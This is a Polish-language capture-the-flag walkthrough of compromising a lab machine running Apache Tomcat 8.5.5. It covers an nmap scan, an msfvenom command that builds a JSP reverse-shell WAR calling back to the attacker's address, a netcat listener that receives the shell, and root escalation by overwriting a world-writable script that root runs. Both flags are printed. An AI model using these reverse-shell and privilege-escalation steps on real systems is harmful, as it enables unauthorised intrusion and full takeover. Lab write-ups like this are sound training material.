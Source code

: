 ## IP maszyny:
10.10.163.72

### Sprawdzanie połączenia

└─$ ping -c 5 10.10.163.72 
PING 10.10.163.72 (10.10.163.72) 56(84) bytes of data.
64 bytes from 10.10.163.72: icmp_seq=1 ttl=63 time=46.1 ms
64 bytes from 10.10.163.72: icmp_seq=2 ttl=63 time=47.4 ms
64 bytes from 10.10.163.72: icmp_seq=3 ttl=63 time=46.5 ms
64 bytes from 10.10.163.72: icmp_seq=4 ttl=63 time=47.9 ms
64 bytes from 10.10.163.72: icmp_seq=5 ttl=63 time=45.8 ms

--- 10.10.163.72 ping statistics ---
5 packets transmitted, 5 received, 0% packet loss, time 4010ms
rtt min/avg/max/mdev = 45.752/46.740/47.860/0.796 ms

### Sprawdzanie co jest pod podanym adresem IP: 

![](20230917104428.png)

### Skanowanie portów: 

$ sudo nmap -sV -sC 10.10.163.72 

-->

[sudo] password for kali: 
Starting Nmap 7.92 ( https://nmap.org ) at 2023-09-17 04:45 EDT
Nmap scan report for 10.10.163.72
Host is up (0.047s latency).
Not shown: 997 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 fc:05:24:81:98:7e:b8:db:05:92:a6:e7:8e:b0:21:11 (RSA)
|   256 60:c8:40:ab:b0:09:84:3d:46:64:61:13:fa:bc:1f:be (ECDSA)
|_  256 b5:52:7e:9c:01:9b:98:0c:73:59:20:35:ee:23:f1:a5 (ED25519)
8009/tcp open  ajp13   Apache Jserv (Protocol v1.3)
|_ajp-methods: Failed to get a valid response for the OPTION request
8080/tcp open  http    Apache Tomcat 8.5.5
|_http-favicon: Apache Tomcat
|_http-title: Apache Tomcat/8.5.5
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 10.82 seconds

### Sprawdzanie strony na porcie 8080:

![](20230917105427.png)

![](20230917105605.png)

# 401 Unauthorized

You are not authorized to view this page. If you have not changed any configuration files, please examine the file conf/tomcat-users.xml in your installation. That file must contain the credentials to let you use this webapp.

For example, to add the admin-gui role to a user named tomcat with a password of s3cret, add the following to the config file listed above.

<role rolename="admin-gui"/>
<user username="tomcat" password="s3cret" roles="admin-gui"/>

Note that for Tomcat 7 onwards, the roles required to use the host manager application were changed from the single admin role to the following two roles. You will need to assign the role(s) required for the functionality you wish to access.

- admin-gui - allows access to the HTML GUI
- admin-script - allows access to the text interface

The HTML interface is protected against CSRF but the text interface is not. To maintain the CSRF protection:

- Users with the admin-gui role should not be granted the admin-script role.
- If the text interface is accessed through a browser (e.g. for testing since this interface is intended for tools not humans) then the browser must be closed afterwards to terminate the session.

![](20230917105940.png)

![](20230917113433.png)

![](20230917113633.png)

Znalazłem exploit dla tej wersji apache: 
![](20230917114132.png)

![](20230917114954.png)

https://infinitelogins.com/2020/01/25/msfvenom-reverse-shell-payload-cheatsheet/

![](20230917122058.png)

┌──(kali㉿kali)-[~]
└─$ msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.8.128.242 LPORT=4444 -f war > shell1.war

-->

/usr/share/metasploit-framework/vendor/bundle/ruby/3.0.0/gems/hrr_rb_ssh-0.4.2/lib/hrr_rb_ssh/transport/server_host_key_algorithm/ecdsa_sha2_nistp256.rb:11: warning: already initialized constant HrrRbSsh::Transport::ServerHostKeyAlgorithm::EcdsaSha2Nistp256::NAME
/usr/share/metasploit-framework/vendor/bundle/ruby/3.0.0/gems/hrr_rb_ssh-0.4.2/lib/hrr_rb_ssh/transport/server_host_key_algorithm/ecdsa_sha2_nistp256.rb:11: warning: previous definition of NAME was here
/usr/share/metasploit-framework/vendor/bundle/ruby/3.0.0/gems/hrr_rb_ssh-0.4.2/lib/hrr_rb_ssh/transport/server_host_key_algorithm/ecdsa_sha2_nistp256.rb:12: warning: already initialized constant HrrRbSsh::Transport::ServerHostKeyAlgorithm::EcdsaSha2Nistp256::PREFERENCE
/usr/share/metasploit-framework/vendor/bundle/ruby/3.0.0/gems/hrr_rb_ssh-0.4.2/lib/hrr_rb_ssh/transport/server_host_key_algorithm/ecdsa_sha2_nistp256.rb:12: warning: previous definition of PREFERENCE was here
/usr/share/metasploit-framework/vendor/bundle/ruby/3.0.0/gems/hrr_rb_ssh-0.4.2/lib/hrr_rb_ssh/transport/server_host_key_algorithm/ecdsa_sha2_nistp256.rb:13: warning: already initialized constant HrrRbSsh::Transport::ServerHostKeyAlgorithm::EcdsaSha2Nistp256::IDENTIFIER
/usr/share/metasploit-framework/vendor/bundle/ruby/3.0.0/gems/hrr_rb_ssh-0.4.2/lib/hrr_rb_ssh/transport/server_host_key_algorithm/ecdsa_sha2_nistp256.rb:13: warning: previous definition of IDENTIFIER was here
/usr/share/metasploit-framework/vendor/bundle/ruby/3.0.0/gems/hrr_rb_ssh-0.4.2/lib/hrr_rb_ssh/transport/server_host_key_algorithm/ecdsa_sha2_nistp256.rb:11: warning: already initialized constant HrrRbSsh::Transport::ServerHostKeyAlgorithm::EcdsaSha2Nistp256::NAME
/usr/share/metasploit-framework/vendor/bundle/ruby/3.0.0/gems/hrr_rb_ssh-0.4.2/lib/hrr_rb_ssh/transport/server_host_key_algorithm/ecdsa_sha2_nistp256.rb:11: warning: previous definition of NAME was here
/usr/share/metasploit-framework/vendor/bundle/ruby/3.0.0/gems/hrr_rb_ssh-0.4.2/lib/hrr_rb_ssh/transport/server_host_key_algorithm/ecdsa_sha2_nistp256.rb:12: warning: already initialized constant HrrRbSsh::Transport::ServerHostKeyAlgorithm::EcdsaSha2Nistp256::PREFERENCE
/usr/share/metasploit-framework/vendor/bundle/ruby/3.0.0/gems/hrr_rb_ssh-0.4.2/lib/hrr_rb_ssh/transport/server_host_key_algorithm/ecdsa_sha2_nistp256.rb:12: warning: previous definition of PREFERENCE was here
/usr/share/metasploit-framework/vendor/bundle/ruby/3.0.0/gems/hrr_rb_ssh-0.4.2/lib/hrr_rb_ssh/transport/server_host_key_algorithm/ecdsa_sha2_nistp256.rb:13: warning: already initialized constant HrrRbSsh::Transport::ServerHostKeyAlgorithm::EcdsaSha2Nistp256::IDENTIFIER
/usr/share/metasploit-framework/vendor/bundle/ruby/3.0.0/gems/hrr_rb_ssh-0.4.2/lib/hrr_rb_ssh/transport/server_host_key_algorithm/ecdsa_sha2_nistp256.rb:13: warning: previous definition of IDENTIFIER was here
Payload size: 1103 bytes
Final size of war file: 1103 bytes


![](20230917123658.png)


┌──(kali㉿kali)-[~]
└─$ nc -lvnp 4444


listening on [any] 4444 ...
connect to [10.8.128.242] from (UNKNOWN) [10.10.163.72] 56672
**ls**
bin
boot
dev
etc
home
initrd.img
initrd.img.old
lib
lib64
lost+found
media
mnt
opt
proc
root
run
sbin
srv
sys
tmp
usr
var
vmlinuz
vmlinuz.old
**id**
uid=1001(tomcat) gid=1001(tomcat) groups=1001(tomcat)
**whoami**
tomcat

...

**ls -la /home/jack**
total 48
drwxr-xr-x 4 jack jack 4096 Aug 23  2019 .
drwxr-xr-x 3 root root 4096 Aug 14  2019 ..
-rw------- 1 root root 1476 Aug 14  2019 .bash_history
-rw-r--r-- 1 jack jack  220 Aug 14  2019 .bash_logout
-rw-r--r-- 1 jack jack 3771 Aug 14  2019 .bashrc
drwx------ 2 jack jack 4096 Aug 14  2019 .cache
-rwxrwxrwx 1 jack jack   26 Aug 14  2019 id.sh
drwxrwxr-x 2 jack jack 4096 Aug 14  2019 .nano
-rw-r--r-- 1 jack jack  655 Aug 14  2019 .profile
-rw-r--r-- 1 jack jack    0 Aug 14  2019 .sudo_as_admin_successful
-rw-r--r-- 1 root root   39 Sep 17 03:45 test.txt
-rw-rw-r-- 1 jack jack   33 Aug 14  2019 user.txt
-rw-r--r-- 1 root root  183 Aug 14  2019 .wget-hsts

...

## 1 flaga

**cat /home/jack/user.txt**
39400c90bc683a41a8935e4719f181bf

...


Zdobycie lepszego Shella: 

https://www.explainshell.com/explain?cmd=python3.1%20-c%20%27import%20pty%3B%20pty.spawn%28%22/bin/sh%22%29%27

![](20230917125643.png)

**python3 -c 'import pty; pty.spawn("/bin/bash")'**
tomcat@ubuntu:/$ 

**tomcat@ubuntu:/home/jack$ cat id.sh**
cat id.sh
#!/bin/bash
id > test.txt
tomcat@ubuntu:/home/jack$ cat test.txt
**cat test.txt**
uid=0(root) gid=0(root) groups=0(root)


**tomcat@ubuntu:/home/jack$ echo 'cp /root/root.txt /home/jack/rootflag.txt' > id.sh**
<cho 'cp /root/root.txt /home/jack/rootflag.txt' > id.sh                     
**tomcat@ubuntu:/home/jack$ ls**
ls
id.sh  test.txt  user.txt
**tomcat@ubuntu:/home/jack$ ls**
ls
id.sh  test.txt  user.txt
**tomcat@ubuntu:/home/jack$ ls**
ls
id.sh  test.txt  user.txt
**tomcat@ubuntu:/home/jack$ ls**
ls
id.sh  rootflag.txt  test.txt  user.txt
**tomcat@ubuntu:/home/jack$ cat user.txt**
cat user.txt
39400c90bc683a41a8935e4719f181bf
**tomcat@ubuntu:/home/jack$ cat rootflag.txt**
cat rootflag.txt
d89d5391984c0450a95497153ae7ca3a

![](20230917131436.png)
